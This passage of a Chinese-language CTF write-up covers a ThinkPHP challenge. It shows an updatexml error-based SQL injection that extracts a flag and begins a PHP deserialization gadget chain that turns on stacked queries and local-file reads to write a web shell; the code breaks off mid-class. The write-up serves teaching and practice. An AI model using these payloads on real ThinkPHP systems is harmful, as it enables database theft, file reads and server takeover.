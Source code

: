 利用控制器中的`php://input`进行post传入数据

我们运行脚本，将得到的值进行post传参，得到部分flag

![image-20241128194934442](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411281949503.png)

我们查询后半段flag

```
mysql.user where updatexml(1,concat(0x7e,mid((select`*`from`flag`),15),0x7e),1)#
```

![image-20241128195043988](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411281950157.png)

拼接起来就得到完整的flag了

## 解法二：开堆叠写shell

参考payload:[红明谷 CTF2021 Web部分 WriteUp – glzjin (zhaoj.in)](https://www.zhaoj.in/read-6859.html#flag-3)

```php
<?php
namespace Think\Db\Driver{
    use PDO;
    class Mysql{
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true,    //读取本地文件~
            PDO::MYSQL_ATTR_MULTI_STATEMENTS => true,    //把堆叠开了~
        );
        protected $config = array(
            "debug"    => 1,
            "database" => "test",//任意一个存在的数据库
            "hostname" => "127.0.0.1",
            "hostport" => "3306",
            "charset"  => "utf8",
            "username" => "root",
            "password" => "root"
        );
    }
}
namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;
        public function __construct(){
            $this->img = new Memcache();
        }
    }
}
namespace Think\Session\Driver{
    use Think\Model;
    class Memcache{
        protected $handle;
        public function __construct(){
            $this->handle = new Model();
        }
    }
}
namespace Think{
    use Think\Db\Driver\Mysql;
    class Model{
        protected $options   = array();
        protected $pk;
        protected $data = array();
        protected $db = null;
```